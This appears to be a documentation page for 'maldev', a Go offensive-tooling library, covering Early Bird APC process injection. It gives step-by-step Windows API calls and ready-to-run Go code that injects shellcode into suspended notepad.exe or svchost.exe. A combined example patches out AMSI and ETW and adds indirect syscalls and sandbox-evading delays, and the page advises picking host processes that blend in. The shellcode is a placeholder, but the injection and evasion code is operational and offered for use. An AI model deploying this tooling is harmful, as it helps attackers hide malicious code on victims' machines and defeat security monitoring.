

# Early Bird APC Injection

> **MITRE ATT&CK:** T1055.004 -- Process Injection: Asynchronous Procedure Call | **D3FEND:** D3-PSA -- Process Spawn Analysis | **Detection:** Medium

## Primer

Imagine you are starting a new restaurant. Before the chef even arrives for their first day, you slip your recipe into their to-do queue. When the chef shows up and starts working, the first thing they do is check their queue and cook your dish -- they never even question it because it was there before they began.

Early Bird APC injection works the same way. You create a new process in a "suspended" state -- the process exists but has not started running any code yet. You then write your shellcode into the new process's memory and queue an Asynchronous Procedure Call (APC) on its main thread. When you resume the thread, the APC fires before any application code runs, executing your shellcode as the very first thing the process does.

This technique is stealthier than CreateRemoteThread because no new thread is created. The main thread runs the shellcode via its normal APC dispatch mechanism -- something Windows does routinely. EDR products still monitor `CreateProcess` and APC queuing, but the combination avoids the highly-flagged `CreateRemoteThread` API entirely.

## How It Works



**Step-by-step:**

1. **CreateProcess(CREATE_SUSPENDED)** -- Spawn a sacrificial process (default: `notepad.exe`) with the main thread in a suspended state.
2. **NtAllocateVirtualMemory** -- Allocate `PAGE_READWRITE` memory in the child process.
3. **NtWriteVirtualMemory** -- Write the shellcode into the allocated region.
4. **NtProtectVirtualMemory** -- Flip permissions to `PAGE_EXECUTE_READ`.
5. **NtQueueApcThread** -- Queue an APC on the child's main thread, pointing to the shellcode address.
6. **ResumeThread** -- Resume the main thread. The APC fires before the process entry point runs, executing the shellcode.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    cfg := &inject.WindowsConfig{
        Config: inject.Config{
            Method:      inject.MethodEarlyBirdAPC,
            ProcessPath: `C:\Windows\System32\notepad.exe`,
        },
    }
    injector, err := inject.NewWindowsInjector(cfg)
    if err != nil {
        log.Fatal(err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. Apply minimal evasion (AMSI + ETW patches).
    if errs := evasion.ApplyAll(preset.Minimal(), nil); errs != nil {
        log.Printf("evasion errors: %v", errs)
    }

    // 2. Build Early Bird injector with indirect syscalls and CPU delay.
    injector, err := inject.Build().
        Method(inject.MethodEarlyBirdAPC).
        ProcessPath(`C:\Windows\System32\svchost.exe`).
        IndirectSyscalls().
        Use(inject.WithCPUDelayConfig(inject.CPUDelayConfig{MaxIterations: 8_000_000})).
        WithFallback().
        Create()
    if err != nil {
        log.Fatal(err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | Medium -- avoids `CreateRemoteThread`, but `CREATE_SUSPENDED` + `QueueUserAPC` is a known pattern. EDR may correlate the two events. |
| Compatibility | Good -- works on Windows 7+ (APC mechanism is stable across versions). |
| Reliability | High -- the APC is guaranteed to fire when the thread resumes, no race conditions. |
| Timing | Shellcode runs before any application code, including CRT initialization. Use position-independent shellcode only. |
| Limitations | Creates a visible child process (choose a process that blends in). The child process must remain alive or the shellcode terminates with it. |

## API Reference

```go
// Method constant
const MethodEarlyBirdAPC Method = "earlybird"

// Builder pattern
injector, err := inject.Build().
    Method(inject.MethodEarlyBirdAPC).
    ProcessPath(`C:\Windows\System32\svchost.exe`).  // optional, default notepad.exe
    IndirectSyscalls().
    Create()

// Config pattern
cfg := &inject.WindowsConfig{
    Config: inject.Config{
        Method:      inject.MethodEarlyBirdAPC,
        ProcessPath: `C:\Windows\System32\notepad.exe`,
    },
    SyscallMethod: wsyscall.MethodIndirect,
}
injector, err := inject.NewWindowsInjector(cfg)
```
